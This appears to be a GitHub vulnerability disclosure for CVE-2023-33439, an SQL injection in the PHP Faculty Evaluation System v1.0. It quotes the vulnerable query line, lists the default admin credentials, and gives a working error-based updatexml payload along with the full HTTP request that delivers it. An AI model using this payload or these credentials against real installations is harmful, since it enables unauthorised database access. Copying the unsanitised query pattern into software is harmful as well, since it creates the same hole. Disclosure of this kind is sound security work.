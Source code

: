 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

[CVE-2023-33439](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33439)
[NVD Score: **7.2 HIGH**](https://nvd.nist.gov/vuln/detail/CVE-2023-33439)

Admin account password： admin@admin.com/admin123
 
BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_task.php?id=

Vulnerability location: /eval/admin/manage_task.php?id=, id

Vulnerability sql: `$qry = $conn->query("SELECT * FROM task_list where id = ".$_GET['id'])->fetch_array();` 

dbname =evaluation_db

[+] Payload: /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233832362-0d030e91-ce80-4c07-8594-ef055a10f67d.png)
